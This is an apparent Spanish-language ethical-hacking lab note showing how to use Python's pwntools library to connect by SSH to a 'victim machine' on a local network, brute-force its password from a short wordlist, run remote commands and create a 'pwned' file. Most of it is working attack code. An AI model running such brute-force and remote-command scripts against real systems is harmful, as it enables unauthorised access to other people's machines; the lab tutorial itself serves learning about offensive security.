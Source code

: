 #PWN #HackingPython #PinguinoMario #HackingEtico
Para comprobar que existe conectividad por ssh, para ello ejecutamos este código con una máquina víctima:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)
```
Y veremos que con estos datos es correcto y hay conectividad:
![[Pasted image 20230417133513.png]]
## ATAQUE FUERZA BRUTA CONTRASEÑAS SSH PWN
Podemos probar varias combinaciones de contraseñas con la librería pwn de esta forma.
```python
from pwn import *

posibles_passwords = ['mario123', 'pass123', 'password1', '123123']

user = 'mario'
host = '192.168.0.18'

for i in posibles_passwords:
    try:
        ssh_connection = ssh(user, host, password=i)
        print(f"LA CONTRASEÑA ES {i}")
    except:
        pass

ssh_conn('whoami') # Ejecutamos un comando con espacios.
```
Y aquí vemos el resultado y cómo la contraseña correcta es la de 123123:
![[Pasted image 20230417151130.png]]
## EJECUTAR COMANDOS SSH PWN
Y ahora podemos entrar por ssh y ejecutar comandos remotamente poniendo este código:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

ssh_conn.whoami() # Ejecutamos un comando.
```
Y vemos que el comando se ejecuta correctamente:
![[Pasted image 20230417133637.png]]
Pero si queremos ejecutar un comando con espacios, lo haríamos de esta forma:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

ssh_conn('ls -la') # Ejecutamos un comando con espacios.
```
Y vemos el resultado:
![[Pasted image 20230417133859.png]]
## CAMBIAR DE DIRECTORIO DE TRABAJO SSH PWN
Si queremos que se cambie el actual directorio de trabajo de la máquina víctima lo haremos con el parámetro set_working_directory:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

# Cambiar el directorio de trabajo en el servidor remoto
ssh_conn.set_working_directory('/home/mario/Escritorio')
ssh_conn('touch pwned')
```
Y ahora vemos como se ha creado un nuevo archivo dentro del escritorio de la máquina víctima:
![[Pasted image 20230417134255.png]]

